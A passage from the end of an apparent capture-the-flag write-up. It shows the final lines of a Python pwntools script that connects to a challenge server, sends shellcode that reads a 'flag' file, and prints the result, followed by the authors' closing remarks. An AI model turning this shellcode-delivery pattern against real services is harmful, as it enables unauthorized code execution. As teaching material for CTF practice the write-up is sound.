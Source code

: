 ```python
  .string "flag"

""")

p = remote("0.cloud.chals.io", 22610)
print_clean(p.recvuntil(b"Reading 0x1000 bytes from stdin.\n"))
p.sendline(shellcode)

print_clean(p.readrepeat())

```

Here's the solution already implemented in 'boilerplate.py'


## Conclusion

We hope this explanation on how to solve the three challenges was helpful (and not too much verbose!). If something is still obscure to you you can ask a question on the discord server and we will try to answer in a timely manner.

